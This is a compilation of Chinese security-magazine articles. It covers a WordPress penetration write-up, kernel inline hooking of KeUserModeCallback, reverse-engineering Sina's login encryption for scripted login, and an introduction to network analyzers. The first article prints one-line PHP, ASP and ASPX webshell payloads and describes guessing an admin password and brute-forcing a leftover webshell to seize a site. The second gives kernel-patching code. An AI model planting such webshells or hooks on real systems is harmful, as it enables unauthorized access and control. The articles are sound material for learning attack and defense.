一句话后门是Web渗透中用得最多的一个必备工具，流行一句话后门分为Asp、Asp.net、Jsp和Php四种类型。一句话后门利用的实质就是通过执行SQL语句、添加或者更改字段内容等操作，在数据库表或者相应字段插入`"<%execute request("pass")%>"`、`"<%eval request("pass")%>"`、`"<?php eval($_POST[pass]);?>"`、`"<?php @eval($_POST[pass]);?>"`、`"<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>"`等代码，然后通过中国菜刀、lake一句话后门客户端等工具进行连接。只需要知道上述代码被插入到的具体文件以及连接密码，即可进行WebShell的一些操作，它是基于B/S结构的架构。（一句话后门）是黑客入侵成功的标志和常用后门，在渗透过程中如果发现有一句话后门，那么可以通过对一句话后门进行破解，从而获得网站的权限。

### 获取后台权限

应好友邀请，对某网站进行安全检测，通过wvs等扫描工具对目标站点进行扫描，但没有发现可以利用的明显漏洞，通过社工，成功猜测出网站管理员admin的密码，如图1所示，成功进入后台。



图1 登录WordPress后台

### 尝试提权

获取管理员权限后，通过查看和编辑页面内容，在页面内容中插入一句话后门代码，如图2所示，无法保存修改后的文件，该文件以及文件夹无写权限。



图2 尝试提权往网站写入文件

在上传图像模块选择图像文件进行上传，如图3所示，无法上传文件，跟前面一样，文件夹设置了权限，看来通过WordPress常见提权方法是无法成功的。



图3 无法上传文件

### 列目录以及文件漏洞

该目标站点还存在列目录以及文件漏洞，如图4所示，可以查看图像文件等，在images文件夹下发现有gif.php文件，通过浏览器浏览发现该文件可以访问，同时该文件大小为“27字节”，为一句话后门的可能性极高。



图4 列目录以及文件漏洞

### 一句话密码破解

打开“ASP PHP ASPX一句话密码暴力猜解工具”，如图5所示，在地址中输入目标网站发现的一句话后门文件的具体地址`“http://www.somesite.com/images/gif.php”`，选择全部字符，设置位数为“3”，脚本选择“php”，单击“破解”按钮，开始对一句话后门进行破解。



图5 对一句话后门密码进行破解

### 获取目标webshell权限

在菜刀工具中新增加一个后门记录，输入地址和密码，如图6所示，成功获取目标站点的权限。



图6 获取目标webshell权限

### 总结

- 本次渗透熟悉和掌握了WordPress管理员提权的方法，在获取管理员的情况下可以通过修改页面文件插入一句话后门直接获取webshell，还可以直接上传后门文件获取webshell。
- 在权限设置严格的情况下，可以通过其它漏洞来获取权限，比如文件名称和目录信息泄露等，在本例中找到早期入侵者留下的shell，通过一句话后门破解成功获取网站权限。

（完）

## KeUserModeCallback原理概述及其InlineHook程序设计

文/图 孙相辰

在前面我们讨论360安全卫士挂钩的时候，我发现了这样一个IAT HOOK：“ntoskrnl.exe:KeUserModeCallback[win32k.sys]”。360既然这样做，就有它的道理。本文就和大家一起讨论一下KeUserModeCallback的原理，之后再看看我们如何开发出Inline Hook程序。

### Windows子系统及KeUserModeCallback原理概述

Windows子系统是Windows系统的组成部分，主要作用是为应用程序提供一个图形用户界面（GUI）环境，其中内核模块win32k.sys发挥了重要作用，win32k.sys包含窗口管理器和GDI两大部分。到这里大家肯定想到了360的IAT HOOK应该与GUI相关功能有关。

我们对SetWindowsHookEx这个API都相当熟悉，它与CallNextHookEx、UnhookWindowsHookEx可以组成钩子链，在Windows消息到达目标窗口之前处理它，以达到截取消息的目的。由此可知，钩子函数是用户模式函数，这就涉及了一个从内核模式调用用户模式函数的问题，这时就用到了KeUserModeCallback函数，Windows子系统通过调用KeUserModeCallback来指定钩子函数。通过反汇编KeUserModeCallback函数及参考了WRK代码，发现该函数是这样运行的：先用KiGetUserModeStackAddress来获得一个用户模式堆栈地址，然后赋值，再调用KiCallUserMode、KiServiceExit回到用户模式，调用ntdll.dll中的KeUserCallbackDispatcher，来指定回调函数，钩子执行完成后再回到KeUserCallbackDispatcher，而后返回内核模式，从而回到内核中的KeUserModeCallback函数。在此就不占用篇幅了，感兴趣的朋友可以查看我在程序中附带的文档。

### KeUserModeCallback Inline Hook程序设计

在黑防的历史上，之前曾经有高手在文章中称，挂钩KeUserModeCallback函数有两种方式：IAT HOOK（QQ电脑管家，现腾讯电脑管家）、Inline HOOK（360保险箱，现360游戏保险箱），并给出了详细的IAT HOOK代码及功能演示。现在我们看到360安全卫士采用的是IAT HOOK，为了开阔思路，本文专注于开发Inline Hook程序。下面是用WinDbg查看的360安全卫士IAT HOOK之处：

```asm
lkd> u win32k!_imp__KeUserModeCallback
win32k!_imp__KeUserModeCallback:
bf98e254 b40e                mov        ah,0Eh
bf98e256 9b                  wait
bf98e257 f9                  stc
```

KeUserModeCallback定义如下：

```c
KeUserModeCallback (
    IN ULONG ApiNumber,
    IN PVOID InputBuffer,
    IN ULONG InputLength,
    OUT PVOID *OutputBuffer,
    IN PULONG OutputLength
)
```

下面开始着手我们的程序，先调试一下KeUserModeCallback函数，仅看头几个字节：

```asm
lkd> u KeUserModeCallback
nt!KeUserModeCallback:
80598058 6a30                 push    30h
8059805a 68f89f4d80           push    offset nt!KiDebugRegisterContextOffsets+0x24
(804d9ff8)
8059805f e8cc0efaff           call    nt!_SEH_prolog (80538f30)
......                        ......
```

我们就选择开始两句“push x、push xxxx”作为目标，不用经常使用的jmp方法，改用“push xxxx、ret、nop”的组合，大家可以比较一下，字节数是相同的，请看程序及注释：

```c
NTSTATUS InlineHook()
{
    NTSTATUS Status = STATUS_SUCCESS;
    UNICODE_STRING ustrFunName = RTL_CONSTANT_STRING(L"KeUserModeCallback");
    PVOID fnKeUserModeCallback = MmGetSystemRoutineAddress(&ustrFunName);//获得 KeUserModeCallback 地址

    (ULONG)fnKeUserModeCallback03fun =
    *(PULONG)((ULONG)fnKeUserModeCallback+0x03);//保存 KeUserModeCallback 偏移 0x03 处的值

    (ULONG)fnKeUserModeCallback08fun =
    *(PULONG)((ULONG)fnKeUserModeCallback+0x08);//保存 KeUserModeCallback 偏移 0x08 处的值

    (ULONG)fnKeUserModeCallback07 = (ULONG)((ULONG)fnKeUserModeCallback+0x07);//保存 KeUserModeCallback 偏移 0x07 处的地址

    UN_PROTECT();//可写，开始赋值
    *(PULONG)((ULONG)fnKeUserModeCallback) = 0x68;//在偏移 0 处赋值：push
    *(PULONG)((ULONG)fnKeUserModeCallback+0x01) = (ULONG)myhook;//在偏移 0x01 处赋值：myhook 函数的地址
    *(PULONG)((ULONG)fnKeUserModeCallback+0x05) = 0xc3;//在偏移 0x05 处赋值：ret
    *(PULONG)((ULONG)fnKeUserModeCallback+0x06) = 0x90;//在偏移 0x06 处赋值：nop
    *(PULONG)((ULONG)fnKeUserModeCallback+0x07) = 0xe8;//以下两句为赋系统原值
    *(PULONG)((ULONG)fnKeUserModeCallback+0x08) = (ULONG)fnKeUserModeCallback08fun;
    RE_PROTECT();//关闭可写
}
```

```c
return Status;
}
```

同理，UnInlineHook 函数内容就是赋系统原值，如下：

```c
NTSTATUS UnInlineHook()
{
    NTSTATUS Status = STATUS_SUCCESS;
    UNICODE_STRING ustrFunName = RTL_CONSTANT_STRING(L"KeUserModeCallback");
    PVOID fnKeUserModeCallback = MmGetSystemRoutineAddress(&ustrFunName);
    UN_PROTECT();
    *(PULONG)((ULONG)fnKeUserModeCallback) = 0x6a;
    *(PULONG)((ULONG)fnKeUserModeCallback + 0x01) = 0x30;
    *(PULONG)((ULONG)fnKeUserModeCallback + 0x02) = 0x68;
    *(PULONG)((ULONG)fnKeUserModeCallback + 0x03) =
        (ULONG)fnKeUserModeCallback03fun;
    *(PULONG)((ULONG)fnKeUserModeCallback + 0x07) = 0xe8;
    *(PULONG)((ULONG)fnKeUserModeCallback + 0x08) =
        (ULONG)fnKeUserModeCallback08fun;
    RE_PROTECT();
    return Status;
}
```

对于 myhook 函数，首要的考虑是必须保持原函数的值，然后再跳回 HOOK 点继续执行 KeUserModeCallback 函数。然后就是实现相应的功能，否则 HOOK 了也没意义。要实现功能就要获得 KeUserModeCallback 相应参数的地址。

```c
__declspec(naked) void myhook() // 裸函数
{
    _asm push eax; // eax 入栈
    _asm mov eax, DWORD PTR [esp+4]; // 获得第一个参数
    _asm mov ApiNumber, eax; // 赋给变量
    _asm pop eax; // eax 出栈，保持平衡。其他参数赋值以此类推
    Function(); // 阻止陌生 DLL 加载的功能函数
    _asm push 0x30; // 原函数值
    _asm push fnKeUserModeCallback03fun; // 原函数值
    _asm push fnKeUserModeCallback07;
    _asm ret; // 这两句是跳回 KeUserModeCallback 偏移 0x07 地址处
}
```

当参数 ApiNumber = LOAD_IMAGE_API_NUM 时，是指加载 DLL 的状态，通过参数 InputBuffer 可以得到加载 DLL 的名称。使用不同操作系统，在加载 DLL 时，InputBuffer 参数偏移到 DLL 名称的距离值是有所不同的。大型安全软件 Function 函数应当是先判断操作系统，从而确定 InputBuffer 参数偏移到 DLL 名称的距离值，准确地获得加载的 DLL 名称，并建立黑白名单：黑名单直接拦截，白名单直接放过，其他的在给用户一定提示的情形下，交由用户来判断是否拦截。由于代码量很大且个人能力有限，就不具体实现了。本程序对 Windows XP 与 Windows 7 系统均可适用，其中在 Windows 7 系统中加载后用 XueTr 查看如图 1 所示，可以很清楚地看到我们的 Inline Hook KeUserModeCallback 以及 360 安全卫士的 IAT Hook KeUserModeCallback。



图1

## 经验教训总结

在整个编程过程中总结了几点经验教训，和大家分享一下：

- 1) 在使用 MmGetSystemRoutineAddress 函数获取地址时，想获取地址的函数名字一定要书写正确。一开始我把 KeUserModeCallback 中的“b”误写为“B”，导致没有获得正确的地址。

- 2) Inline Hook 功能强大，实现难度相对比较大，Hook 地点的选择对 Inline Hook 的成败有很大影响。总的说来，在函数体内部进行 HOOK 的难度相对比较大，一般还是倾向于在函数的开头和结尾进行 HOOK。比如说我们这次的 Inline Hook 是在开头处的“push x、push xxxx”，仔细观察一下结尾处也可以进行类似的操作。再如，NtCreateProcess 反汇编的头几个字节如下，让我们考虑一下如何进行 Inline Hook：

```asm
lkd> u NtCreateProcess
nt!NtCreateProcess:
805c84a0 8bff            mov edi,edi
805c84a2 55              push ebp
805c84a3 8bec            mov ebp,esp
```

实际上这头五个字节已经足够我们开发 Inline Hook 之用了，伪代码表示如下：

```c
*(PULONG)((ULONG)fnNtCreateProcess) = 0xe9; // 修改为 jmp xxxx
*(PULONG)((ULONG)fnNtCreateProcess + 0x01) = myhook - fnNtCreateProcess - 5;
```

- 3) 使用 DUMP 文件分析 BSoD 原因非常重要。一开始我在 Inline Hook 函数中并没有写如下两句，即在返回点处没有赋系统原值，导致 BSoD。

```c
*(PULONG)((ULONG)fnKeUserModeCallback + 0x07) = 0xe8; // 以下两句为赋系统原值
*(PULONG)((ULONG)fnKeUserModeCallback + 0x08) = (ULONG)fnKeUserModeCallback08fun;
```

后来解决的办法是通过 DUMP 文件分析，发现在 KeUserModeCallback 偏移 0x07 地址处，即返回点的值为零导致了 BSoD，遂加入这两句，成功地实现了本程序。错误如下：

```text
FAULTING_IP:
nt!KeUserModeCallback+7
8059805f 0000                add          byte ptr [eax],al
```

在我们开发 Windows 内核程序时，稍有不慎便会导致 BSoD，因此学会 DUMP 文件分析很重要，下面是设置的过程：  
打开“我的电脑”->“属性”->“高级”选项卡中的“启动和故障恢复”，点击“设置”按图 2 方法设置。


图2

如此设置后，DUMP 文件便保存在了“c:\WINDOWS\Minidump”目录中（c 为系统盘符）。在发生 BSoD 之后，就要使用 WinDbg 工具了，先打开“File”->“Symbol File Path”加载路径“srv*c:\symbols*http://msdl.microsoft.com/download/symbols”，接着打开“File”->“Open Crash Dump”，载入保存在 Minidump 目录中的 DUMP 文件，使用命令“!analyze -v”进行分析即可。

重申一下，无保护的 Inline Hook 是非常脆弱的，以前讨论过这个问题，这里不再赘述。最后，希望对 Windows 内核程序、Windows 系统中 Rootkit 技术感兴趣的朋友，特别是刚入门的朋友，通过本文介绍的分析过程得到一些启示；同时，每一次编程也很大程度上促进了自己技术的提升。让我们共同进步，为实现心中的理想而努力奋斗。

## 攻破新浪通行证登录验证实现自动登录

文/图 耿靓

打开新浪登录界面“http://login.sina.com.cn/”，查看了一下源码，网页源码本身内容不多也很整洁。看看加载的资源，也很整洁，真有些小清新的感觉。除了页面内置的 JS 代码外，只有 3 个外部 JS 文件引用。简单地看一下这三个文件，发现只有 ssologin.js 文件有压缩，其余两个文件都是以人可读的状态保存，如图1所示。


图1

由于不管是页面内部 JS 代码还是外部引用的 JS 文件，如果想正常运行都必须以文本状态被浏览器加载，但有时一些关键逻辑不希望别人轻易获取，就必须要做一些防范。这里主要的防范方法就是混淆，使代码变得人不可读。与此同时，混淆过的代码必须符合 JS 语法规范，让计算机可以执行。JS 文件压缩也有人说是 JS 文件加密，就是利用 JS 中函数内部变量和函数使用短名称，同时删除空格注释等附加信息，在不改变程序逻辑的前提下，生成体积小、内容变成人不可读的方法。比较有名的工具有 JSMin、YUI Compressor、Google Closure Compiler。

那这个被压缩的文件，到底是单纯为了减小文件体积而进行的压缩，还是要通过压缩进行一些混淆呢？现在还不能确定。我先不去管它，既然我的目的是要模拟登录，那我就先正式登录一次，看看会向服务器提交什么数据。


图2

通过查看浏览器与服务器之间交互的信息，很容易了解到，第 6 次交互的 URL 与我登录成功后的 URL 一致，显然此时已经完成了登录过程。在我登录的整个过程中，浏览器一共与服务器交互了 5 次，分别是图2中前 5 次交互。

### 深入研究

根据图2中提交的 URL 看，第 3 次网络通信应该就是正式的登录过程。一般登录数据提交会使用 POST 方法，不会使用简单的 GET 方法。那就看看这次提交到底提交了哪些数据。


图3


图4

图3是这次登录过程的 HTTP 头部数据，图4是这次登录过程的 URL 参数部分和 POST 的表单数据。

乍看起来，HTTP 头部数据里没有什么特殊的内容，都是一些标准的信息节。URL 的参数部分呢，“client”参数看起来应该是登录脚本的版本号，后面那个“_”这个参数，看起来像是 JS 的时间字符串。这种以时间作为参数提交的方式，有可能是单纯为了防止浏览器使用缓存数据而不正式提交表单做的处理。

看来重点是这张 form 表单了，里面很显然“su”“nonce”“rsakv”和“sp”这几个数据比较特殊，应该是我这次的主要麻烦制造者吧。尤其是“sp”这个参数，很长。本着数据必有来源的精神，有必要好好看看在正式提交数据之前与服务器交互的内容。

多提交几次，发现其中 su 是定值，那这个 su 要么和我输入的用户名密码有关，要么就是一颗烟雾弹，就是一个定值。我先试试它是不是 base64 转码的结果。通过 base64 解码，果然是用户名通过 encodeURIComponent 转码后依照 base64 编码的结果。第一个坑轻松填掉。

这次交互的 URL 为：

```text
http://login.sina.com.cn/sso/prelogin.php?entry=account&callback=sinaSSOController.preloginCallBack&su=【这里就是上面所说的 su 的值】&rsakt=mod&client=ssologin.js(v1.4.15)&_=1408434523428
```

下面就是返回的结果值，很多秘密原来就在这里。

```text
sinaSSOController.preloginCallBack({"retcode":0,"servertime":1408434531,"pcid":"hk-576bf11def3457a0a197c7c05cc9311d2c82","nonce":"8TOH2N","pubkey":"EB2A38568661887FA180BDDB5CABD5F21C7BFD59C090CB2D245A87AC253062882729293E5506350508E7F9AA3BB77F4333231490F915F6D63C55FE2F08A49B353F444AD3993CACC02DB784ABBB8E42A9B1BBFFFB38BE1..."})
```

8D78E87A0E41B9B8F73A928EE0CCEE1F6739884B9777E4FE9E88A1BBE495927AC4A799B3181D6  
442443","rsakv":"1330428213","exectime":2})"

显然“servertime”“nonce”“rsakv”都是与登录提交的数据一致的。这里也有一个出奇长的参数“pubkey”，单纯看这个名字就感觉应该是加密算法中的公钥，与上面那段代码中的 sp 有关联的可能性很大。

解铃还需系铃人，现在要看看“登录”按钮究竟调用了哪个函数，做了些什么操作，如图5所示。

```html
<form onsubmit="check();return false;" method="post">
  <div class="userinfo">
    <ul>
      <li></li>
      <li></li>
      <li id="vsm_content" style="display:none"></li>
      <li id="door_content1" style="display:none"></li>
      <li id="door_content2" class="valid_num" style="display:none"></li>
      <li class="s_state"></li>
      <li class="s_btn">
        <a href="javascript:void(0);">
          <input class="smb_btn" type="submit" value="">
        </a>
        <a target="_blank" href="https://login.sina.com.cn/getpass.html"></a>
      </li>
      <li></li>
    </ul>
  </div>
</form>
```

图5

提交按钮调用了 check 函数，然后直接阻止表单的提交操作了，说明 check 函数进行了检查和提交。

既然是脚本提交，那么就会有脚本获取用户名密码的值，接下来就要在所有的 JS 代码中寻找相关信息了。根据搜索控件 id“username”和“password”，发现只有那个被压缩的 JS 文件中存在这些关键字。看来现在不得不去了解那个被压缩、此处更确切地说是被“加密”的 JS 文件了。不过还好，火狐的调试器有一个超赞的功能“美化源代码”，如图6所示。


图6

选择美化源代码以后，源码会被增加合理的换行和空白等内容，就方便调试了。因为我们设置断点都是执行到这一行后进行中断，如果只有一行，那调试起来就太困难了。

```javascript
function SSOController() {
  var undefined;
  var me = this;
  var updateCookieTimer = null;
  var updateCookieTimeHardLimit = 1800;
  var cookieExpireTimeLength = 3600 * 24;
  var crossDomainForward = null;
  var crossDomainTimer = null;
  var crossDomainTime = 3;
  var autoLoginCallback2 = null;
  var ssoCrossDomainUrl = 'http://login.sina.com.cn/sso/crossdomain.php';
  var ssoLoginUrl = 'http://login.sina.com.cn/sso/login.php';
  var ssoLogoutUrl = 'http://login.sina.com.cn/sso/logout.php';
  var ssoUpdateCookieUrl = 'http://login.sina.com.cn/sso/updatetgt.php';
  var ssoPreLoginUrl = 'http://login.sina.com.cn/sso/prelogin.php';
  var pincodeUrl = 'http://login.sina.com.cn/cgi/pin.php';
  var vfValidUrl = 'http://weibo.com/sguide/vdun.php';
  var generateVisitorUrl = 'http://passport.weibo.com/visitor/visitor';
  var crossDomainUrlList = null;
  var loginMethod = '';
  var ssoServerTimeTimer = null;
}
```

图7

针对所有包含“username”和“password”的函数设置断点，发现“makeRequest”这个函数主要负责生成提交到服务器的请求，其中“request.su = sinaSSOEncoder.base64.encode(urlencode(username));”也证实了之前对 su 是由用户名经过 urlencode 编码再经过 base64 编码的结果的猜想。

发现其他值的来源都很简单，但这里有几行代码可能比较复杂。如图8所示：```javascript
var RSAKey = new sinaSSOEncoder.RSAKey();
RSAKey.setPublic(me.rsaPubkey, '10001');
password = RSAKey.encrypt([me.servertime,
me.nonce].join('\t') + '\n' + password)
```

图 8

显然这里是用 JS 进行了 RSA 加密操作，虽然数据来源比较简单，经过跟踪，me.rsaPubkey 的来源也找到了，就是 prelogin 中返回的参数“pubkey”，但还是必须找到 RSAKey 对象才可以。经过简单的文本查找，发现定义就在这个 JS 文件中。好了，数据来源清晰了，下面将这个函数复制出来，给予一个新建对象作为参数，结果还真类似。不过我还是小心求证了一下，通过单步跟踪，将网页正常的登录过程中的参数复制进去，发现不能生成一样的加密值，就是多次运行所得的结果都不同，这到底是怎么回事呢？所有问题都要到源码中去寻找答案，原来这个加密函数中有两个地方会造成结果不同，分别是一个函数取得了系统当前时间，另一个循环中生成了一组随机数。图 9 中所示两个代码片段：

```javascript
function S() {
    d(new Date().getTime())
}

while (ab < M) {
    I = Math.floor(65536 * Math.random());
    T[ab++] = I >>> 8;
    T[ab++] = I & 255;
}


```

图 9

现在整个提交流程基本上搞清楚了，下面就是模拟登录的步骤了。由于我的环境中有 JS 解析引擎，所以这个加密脚本我可以直接运行。但要注意，由于不是浏览器，只有 JS 解析引擎，所以不存在 btoa 这样的由浏览器定义的对象，需要自己通过编码实现。还有一个就是加密函数调用了“navigator.appName”，也是由于没有浏览器定义的对象，会报错误。我就直接定义“navigator={};navigator.appName='Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/30.0.1599.69 Safari/537.36'”模拟一个浏览器的用户代理字符串，执行提交，返回值中包含了我的昵称，说明执行成功！登录成功后，我就可以依据我的 cookie，访问我的邮箱、微博等一系列功能了。

## 总结

这次成功的模拟提交研究，说明只要有良好的工具和细心，对网页内容进行破解不是难事，同时也提醒大家，单纯使用 JS 压缩的方式进行逻辑保护可能也有些许的不足。虽然这样是在必须拥有正确用户名密码的前提下，但在 BS 方式盛行的当下，安全防护更需要得到大家的重视，否则我们的信息可能会被机器人一扫而空。

## 网络分析器使用完全接触

文／图 xfeng

如今，网络安全、网络性能、网络软件质量等问题越来越受人们关注。网络分析（Network Analysis）（也称为网络嗅探、网络流量分析、协议分析、数据包分析、网络窃听等）就是通过捕获网络流量并进行深入检查，了解网络中发生了什么情况的过程。从定义来看，网络分析主要指在网络上，通过某台主机捕获其他主机之间的数据包，实现对网络流量的监视、分析或记录，以及数据包的发送技术。为了便于深入理解网络分析技术，本文将对网络分析与网络嗅探相关的网络模型、网络硬件等基础知识进行介绍，并使用 Wireshark 工具演示实例。

## 揭开网络分析器的神秘面纱

网络分析器通常用于对通用协议的数据包进行解码，并以可读的格式来显示网络流量的内容。历史上，网络分析器曾经专注于通过昂贵的、并难于使用的硬件设备来实现。而新出现的先进技术使得基于软件进行网络分析器的开发成为可行方案，其为有效进行网络分析提供了一种更为便捷与廉价的工具，同时具备很强的网络分析能力。

### 1. 网络分析器的基本组成

一个网络分析器由硬件与软件两部分共同组成。它可以是一个带有特定软件的单独硬件设备，也可以是直接安装在台式电脑或笔记本电脑上的一个软件。尽管每种产品之间具有差别，但基本都是由下列五个基本部分组成的。

- **硬件**：多数网络分析器是基于软件的，并工作于标准的操作系统与网卡之上。不过有一些硬件网络分析器会提供额外的功能，诸如硬件故障分析（比如循环冗余校验（CRC）错误、电压问题、网线问题、抖动（Jitter）、逾限（Jabber）、协商错误等）。除了部分网络分析器仅支持以太网或无线网适配器以外，其他的均可支持多重适配器，并允许用户定制它们的配置。依据实际使用情况来看，网络分析器可能也需要一个集线器或一个网线探针（cable tap）连接已有的网线。
- **捕获驱动器**：这是网络分析器中负责从网线上捕获原始网络数据包的组件。它会过滤出需要捕获的网络数据，并把所捕获的数据保存在一个缓冲区中。这是网络分析器的核心——没有它就无法捕获网络数据包。
- **缓冲区**：该组件用于保存所捕获的数据，直到该缓冲区被填满为止。不过，如果采用循环缓冲区的方式，那么最新的数据将会替换最老的数据。
- **实时分析**：该组件可对实时数据包进行分析，也就是说数据包一离开网线就可启用此组件。部分网络分析器还用该组件监测网络性能问题，比如网络入侵检测系统利用它寻找非法的入侵活动。
- **解码（器）**：该组件用于显示网络数据包的内容，它以更便于人们理解的方式来描述数据包，它是可读的。解码特定于每个协议，因此网络分析器当前支持的可解码协议数是变化的，网络分析器可能需要经常加入新的解码协议。

另外，典型的网络分析器通常会采用如下格式来显示所捕获网络流量的信息：

- **概要**：该窗格显示所捕获内容的概要信息，包含时间、源地址、目标地址、最高层协议的名称、信息等内容。
- **详情**：该窗格提供捕获数据包所包含的每层内容的细节信息（采用树形结构）。
- **数据**：该窗格用于十六进制与文本格式显示捕获数据包的原始数据。

图 1 所示，为 Wireshark 网络分析器的主窗口。
图 1 Wireshark 网络分析器的主窗口

各种网络分析器之间的主要差别在于所支持解码的协议数量、用户接口、图形化与统计能力等。其他的差别则包括推理能力（比如专家分析特性）与数据包解码的质量等。尽管不同的网络分析器可能会针对同一个协议进行解码，但实际工作质量可能并不相同。具体来说，网络分析器的主要用途有如下一些：将数据包中的二进制数据转换成易读的格式；处理网络故障；分析网络性能以发现瓶颈；网络入侵检测；为了辩护与收集证据的目的记录网络流量；分析应用程序的操作；发现有问题的网卡；发现病毒暴发的源头或拒绝服务（DoS）的攻击；发现间谍软件；在开发阶段对网络编程进行调试；发现泄密的计算机；确认网络通信是否符合公司的政策；以上作为学习协议的资源。

### 2．网络分析器是如何工作的

